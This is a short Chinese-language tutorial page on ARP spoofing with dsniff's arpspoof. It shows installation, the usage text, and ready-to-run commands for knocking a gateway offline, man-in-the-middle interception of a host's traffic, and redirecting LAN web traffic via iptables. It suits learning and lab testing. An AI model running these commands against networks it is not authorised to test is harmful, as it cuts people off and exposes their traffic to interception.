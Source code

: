 ```yaml
---
sidebar_position: 1
title: Arp 攻击
slug: /arpspoof
---
```


> 本篇内容仅用于学习和测试，本人遵纪守法。

## 安装

arpspoof 是 dsniff 包里的一个程序，可用于arp攻击。Manjaro 中执行以下命令安装这个软件包就可以使用了。

``` bash
yay -S dsniff
```

## 介绍

arpspoof - 截获交换局域网中的数据包。

```
用法
      arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

描述
      arpspoof通过伪造的ARP响应包改变局域网中从目标主机（或所有主机）到另一个主机（host）的数据包转发路径。这是交换局域网中嗅探网络流量的一种极为有效的方法。
      内核IP转发（或如fragrouter这样的、用户层面的、能完成同样功能的软件）必须提前开启。
```

## 使用情景

1.&nbsp;断网攻击，不开启流量转发，使用我的无线网卡 `wlp8s0`，攻击网关
```bash
sudo arpspoof -i wlp8s0 -t 192.168.1.1
```
2.&nbsp;中间人攻击，截获用户和网关之间的流量

开启流量转发
```bash
echo 1 >> /proc/sys/net/ipv4/ip_forward
```
欺骗双方，充当中间人
```bash
sudo arpspoof -i wlp8s0 -t 192.168.1.1 192.168.1.106
sudo arpspoof -i wlp8s0 -t 192.168.1.106 192.168.1.1
```

此时网关以为我是106，而106以为我是网关。双方的流量都将经过这里，使用 WireShark 即可对经过网卡的流量进行分析。

3.&nbsp;重定向攻击

使局域网所有设备访问的 80 端口，重定向到我这里的 8080 端口，需要开启流量转发。
```bash
sudo arpspoof -i wlp8s0 192.168.1.1
```
```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```